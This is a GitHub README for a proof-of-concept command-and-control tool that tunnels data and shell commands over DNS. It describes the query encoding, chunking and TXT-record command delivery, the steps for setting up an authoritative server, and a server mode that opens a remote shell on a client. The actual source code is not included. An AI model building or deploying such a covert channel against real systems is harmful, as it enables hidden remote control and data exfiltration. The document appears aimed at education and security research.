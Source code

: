 # C2oDNS
## Command&Control channel over DNS protocol
This is PoC of the communication channel implemented over DNS protocol. It utilizes a typical client-server architecture. The client is written in C and for now, is only Linux compatible. The server is a python script. 

## Operating principle
A quick refresher on the DNS protocol: its main goal is to **translate a human-friendly domain name into the IP address**. When a device wants to perform this translation, a DNS query is sent to a recursive DNS server. Thanks to the hierarchical structure of DNS servers, this query can travel across multiple DNS servers until it finds an authoritative server of a domain. And if the answer for our query isn't cached anywhere along the way, the query will always hit the domain's authoritative server. The fun begins when we are in a possession of a domain and configure it in such a way, that the authoritative DNS server for this domain is under our control. Then when somebody asks for the address of our subdomain, **a DNS query is forwarded to our server**. In normal conditions we would just return some IP address, but not this time. That query was prepared by the client application and instead of normal subdomains, **it contains some encoded data** (e.g. result of a command execution). To make things even better, DNS queries can not only ask for IP address (type A) but can also for text information (type TXT) that normally would be used for domain ownership verification, email spam prevention, and many more. We can take advantage of this by **sending commands to clients as TXT records**.

## Communication specification 
When the client application is run, it sends TXT queries to a specified domain (e.g. *a.example.com*) with added additional (base32 encoded) information (*info_block*) as subdomain.
```
info_block.a.example.com   TXT?
     ^
     |__________________
      8 bytes of base32
```
When decoded, this information block consists of 5 bytes. The first 2 bytes are "junk" - random value generated for each request. Its purpose is to prevent using cached DNS records because that would resolve our query before it could hit our server. The next byte is client ID - a value given at the launch of the client application (or randomized if not specified). It's used to differentiate multiple clients from the server side. Ultimately MAC address should be used. The last 2 bytes hold message ID. There are two special IDs: HELLO (0xFFFF) and END_OF_TRANSMISSION (0xFFFE). HELLO ID is used when a client is ready to receive a command from the server, and END_OF_TRANSMISSION means that client sent the whole data. When data doesn't fit in a single query then message ID is used to tag queries and later stitch them together on the server side in proper order. That means that a maximum of 65534 messages can be sent as one transaction. By default 189 bytes of data is sent in one query, so only `65534 * 189B ≈ 12MB`can be sent in a single transaction. Data to send is encoded in base32 (12MB of base32 ≈ 8MB of raw data) and added to the domain name as subdomains (max 63 bytes each).
```
data1.data2.data3.info_block.a.example.com   TXT?
```
For every query that hits the server, a proper response is generated (empty data for TXT or server's public IP for A) to prevent queries retransmission and to inform the client that the data has reached the server. When the client is in the middle of sending some data and it doesn't receive an acknowledgment, data transmission is canceled.  

![Communication sequence diagram](https://i.imgur.com/f2ZHvMN.png)

## Setup for educational purposes
1. Obtain a domain (suppose it's *example.com*)
2. Obtain a server with public IP address
3. Cofnigure your domain
    ```
    Example:
    a.example.com   NS  ns.example.com
    ns.example.com  A   XXX.XXX.XXX.XXX <- server's IP address
    ```
4. Compile *client.c* and run **ON YOUR MACHINE**
    ```
    make && ./client a.example.com client_id
    ```
5. Run *server.py* on your server 

## Config and usage of applications
### `client.c`

Run by giving your domain and client_id as arguments. Client_id is optional but recommended. If no client_id is specified, a random value is picked. 
```
./client a.example.com client_id [0-255][optional]
```

Config options (by editing `#define` in source file):
- PORT_NUMBER - socket port number
- DATA_PART_LENGTH - number of bytes of data to attach to the domain name, the maximum length of the result is 255 characters
- DEAD_SERVER_HELLO_INTERVAL_IN_SEC - number of seconds between hello messages if the server doesn't respond
- ALIVE_SERVER_HELLO_INTERVAL_IN_SEC - number of seconds between hello messages if the server responds

### `server.py`
This script provides two functions: `list-clients` and `command-and-control`. 
The first passively listens for client activity and lists them along with the client ID and the time of the last query. The other function launches shell to the specified client.   
```
user$ python3 server.py list-clients --help
Usage: server.py list-clients [OPTIONS]

Options:
  -d, --domain TEXT     Domain name
  -s, --socket-ip TEXT  IP of the interface to run the DNS server on
  -p, --port INTEGER    Custom port number  [default: 53]
  --help                Show this message and exit.
```
![list-clients](https://i.imgur.com/zfFdDFO.png)


```
user$ python3 server.py command-and-control --help
Usage: server.py command-and-control [OPTIONS]

Options:
  -d, --domain TEXT        Domain name
  -s, --socket-ip TEXT     IP of the interface to run the DNS server on
  -c, --client-id INTEGER  ID of the client to control
  -p, --port INTEGER       Custom port number  [default: 53]
  --debug
  --help                   Show this message and exit.
```
![command-and-control](https://i.imgur.com/8d8sFDt.png)

## TODO
- Client for Windows
- Using MAC address as a client ID 

## Licence
MIT
